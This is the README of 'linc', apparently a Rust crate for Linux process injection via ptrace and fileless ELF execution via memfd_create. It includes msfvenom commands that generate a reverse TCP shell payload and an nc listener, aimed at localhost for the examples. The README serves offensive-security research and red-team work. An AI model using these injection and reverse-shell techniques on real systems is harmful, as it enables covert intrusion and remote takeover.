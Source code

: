 # LINC - Linux INjection Crate
`linc` is a Rust crate containing implementations for process injection and fileless ELF execution techniques on Linux.

## Functionality
The following techniques are currently implemented:
- Using [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) to create an anonymous file in memory, write an ELF to it, and then execute.
- Using [ptrace(2)](https://man7.org/linux/man-pages/man2/ptrace.2.html) to stop a forked process, overwrite its RIP register with shellcode, and then resume it.

## Usage
Add `linc` as a dependency to your Rust project with default features enabled
```bash
cargo add --git https://github.com/dustyw0lf/linc.git
```

Add `linc` without default features
```bash
cargo add --git https://github.com/dustyw0lf/linc.git --no-default-features
```

## Features
`linc` has the following features, enabled by default:
- `http`: Adds functionality to download payloads over HTTP/S.

## Examples
>[!note]
>The examples can take binaries or shellcode from either URLs or filesystem paths.

Clone the repo
```bash
git clone https://github.com/dustyw0lf/linc.git
```

Change directory into `linc`
```bash
cd linc
```

### memfd
Run the memfd example with an ELF file
```bash
cargo run --example memfd_executable
```

Run the memfd example with the provided shellcode or use your own:
```bash
msfvenom --payload 'linux/x64/shell_reverse_tcp' LHOST=127.0.0.1 LPORT=1234 --format 'raw' --platform 'linux' --arch 'x64' --out shellcode.bin
```

Start a listener
```bash
nc -lvnp 1234
```

Run the example
```bash
cargo run --example memfd_shellcode
```

### hollow
Run the hollow example with shellcode
```bash
cargo run --example hollow_shellcode
```

## Documentation
Build the documentation
```bash
cargo doc
```

The documentation will be in `target/doc/linc/index.html`.

## Acknowledgments
The code that turns shellcode into an ELF file was taken from the [minimal-elf](https://github.com/tchajed/minimal-elf) repository by [Tej Chajed](https://www.chajed.io).